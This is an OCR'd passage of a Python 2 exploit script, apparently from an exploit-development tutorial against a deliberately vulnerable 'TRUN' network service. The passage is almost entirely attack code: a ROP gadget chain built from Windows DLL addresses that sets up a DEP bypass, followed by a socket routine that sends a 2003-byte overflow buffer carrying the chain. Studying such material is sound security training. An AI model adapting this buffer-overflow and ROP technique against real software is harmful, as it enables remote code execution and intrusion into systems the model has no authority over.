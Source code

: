```python
      0x74d98632,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x7610a564,  # XCHG EAX,ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x747b48ed,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x748991c5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      0x74801c67,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x74d9976f,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x74d925da,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x76108174,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x74d9abbe,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x749c01ca,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x76f55cea,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x74e00920,  # &Writable location [KERNEL32.DLL] ** REBASED ** ASLR
      0x747a2c2b,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x74d9abc0,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      0x747f9cba,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      0x7484f95c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)


def main():

    rop_chain = create_rop_chain()

    buffer = "TRUN /.:/"
    buffer += "A"*2003
    buffer += rop_chain
    buffer += "\xCC"*(3500-2003-4)

    try:
        print "[+] Connecting to target"
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        print "[+] Sent payload with length: %d" % len(buffer)
        s.send(buffer)
        s.close()

    except Exception, msg:
        print "[-] Something went wrong :("
        print msg

main()

```

After restarting the application and running....

